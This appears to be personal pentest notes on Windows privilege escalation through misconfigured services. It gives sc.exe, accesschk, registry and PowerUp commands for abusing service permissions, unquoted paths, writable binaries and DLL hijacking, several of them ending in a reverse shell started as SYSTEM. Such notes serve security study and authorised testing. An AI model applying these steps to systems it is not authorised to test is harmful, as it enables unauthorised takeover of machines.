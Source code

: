 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

If a service runs with a SYSTEM Privs and are misconfigured, exploiting them may lead to command execution with SYSTEM privilege as well.

### Service Commands
```powershell
# Query the configuration of a service
sc.exe qc <name>

# Query the current status of a service
sc.exe query <name>

# Modify a configuration option of a service
sc.exe config <name> <option>= <value>

# Start/Stop a service
net start/stop <name>
```

# Service Misconfigurations
### Insecure Service Permissions
Each service has an ACL which defined certain service-specific permission
```powershell
# Innocuous Service Permission
SERVICE_QUERY_CONFIG
SERVICE_QUERY_STATUS

# Usefull Service Permission to check weather service is starable or stopable by the user
SERVICE_STOP
SERVICE_START

# Dangerous Service
SERVICE_CHANGE_CONFIG
SERVICE_ALL_ACCESS
```
- If user has permission to change service configuration with SYSTEM priv, the change the executable path with our own
- We need to have permission to start/stop the service, to be able to escalate prvileges
Check ACLs for a service
```
.\accesschk.exe /accepteula -uwcqv <user> <service>
```
- Change binary path of a service
```powershell
sc.exe config <service> binpath= "\"C:\reverse_shell.exe\""

# start service to start the reverse shell
net start <service>
```
- Using powershell to enumerate the pathnames
```powershell
Get-WmiObject -Class win32_service | select-object pathname
```
- PowerUp can be used to query services whose binpath can be mofified by the current user:
```powershell
Get-ModifiableServiceFile -Verbose
```
- PowerUp can be used to query services whose configuration can be changed by the current user:
```powershell
Get-ModifiableService -Verbose
```

### Unquoted Service Path
```powershell
# runs someProgram.exe
"C:\Program Files\Some Dir\SomeProgram.exe"

C:\Program Files\Some Dir\SomeProgram.exe
# Should run Program first with two argument Files\Some and Dir\Someprogram.exe
# windows resolve this ambiguity by checking each possibiltity in turn.
# Execution order:
# 1. "C:\Program"
# 2. "C:\Program Files\Some"
# 3. "C:\Program Files\Some Dir\SomeProgram.exe"
```
- This can be exploited to check which directory can we access and put our reverse shell there with write access.
- To check write access for each of these directories
```powershell
.\acchesschk -quvdw "C:\"
.\acchesschk -quvdw "C:\Program Files\"
.
.
.
```
- After writeable path is found. Copy the reverse shell.
```
# "C:\Program Files\Some"
net start
```
- We get a reverse shell
- PowerUp script can be used to search for unquoted service paths:
```powershell
Get-ServiceUnquoted -Verbose
```
### Weak Registry Permission
- Stores data for each service
- Registries have ACL
- ACLs can be misconfigured
- may be possible to service config via registry.
```powershell
# Verify Writable registry keys:
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | select-object -Property *

# Verify writibility via accesschk
.\accesshk -quv
```
```powershell
# Query the registry key
reg query <registry>

# Overwrite the exectable
reg add <registry> /v <variable> /t <data_type> /d <data> /f

# restart the service
net start regsvc
```

### Insecure Service Executable
If the original executable is modifiable by our user.
```powershell
# Overwrite the service executable with our reverse shell.
net start <service>
```

### DLL Hijacking
- A DLL is missing from the system.
- Our user has write permission on the directory where the DDL is looked for by the system. 
- DDL is executed with the same privilege as the process that imports the DLL
```powershell
# Test which service we can stop and start
# copy over to our system
# Use procmon64 to analyze missing DLL
# Check if that path is writable or not
# Place reverse shell there
net start <service>
```

